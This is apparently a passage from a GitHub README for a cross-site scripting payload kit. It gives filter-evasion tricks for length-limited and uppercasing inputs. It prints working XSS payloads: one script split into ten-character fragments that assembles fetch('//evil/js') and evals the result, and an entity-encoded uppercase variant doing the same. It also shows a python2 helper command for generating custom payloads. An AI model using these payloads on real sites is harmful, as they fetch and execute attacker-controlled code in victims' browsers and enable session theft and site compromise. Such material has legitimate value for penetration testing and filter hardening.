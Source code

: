 ## Usecase: character limit is &gt;= 10

* *Works with arbitrary payloads*
* *No additional wrapping needed*
* *`<script>` must not be blocked and must not appear between the payloads*
* *Payloads order on page __does__ matter.*

```
<script>/*
*/X="f"+/*
*/"etc"+/*
*/"h('"+/*
*/"//e"+/*
*/"vil"+/*
*/"/js"+/*
*/"')."+/*
*/"the"+/*
*/"n(r"+/*
*/"=>r"+/*
*/".te"+/*
*/"xt("+/*
*/").t"+/*
*/"hen"+/*
*/"(ev"+/*
*/"al)"+/*
*/"))"/*
*/;eval/*
*/(X);
</script>
```

### How to modify it

Replace the encoded payload above with the output from:

```bash
python2 fetch_helpers.py -x '//myown/external/js' -e split_to_len --maxLen 10
```

**Note:** You can give it an arbitrary payload using the `-p` option. You can also adjust the maximum length. See `python2 fetch_helpers.py --help` for more options.

# Dealing with capitalization

## Usecase: payload is being capitalized, character limit &gt;= 131 (not including wrapping and length of external resource URL)

* *Works with arbitrary payloads*
* Needs wrapping; `<script>`**_payload_**`</script>` won't work&#x2014;use event handlers

```
X="FETCH(\"//EVIL/JS\").THEN(R=>R.TEXT().THEN(EVAL))";&#X65;&#X76;&#X61;&#X6C;(X.&#X74;&#X6F;L&#X6F;&#X77;&#X65;&#X72;C&#X61;&#X73;&#X65;())
```
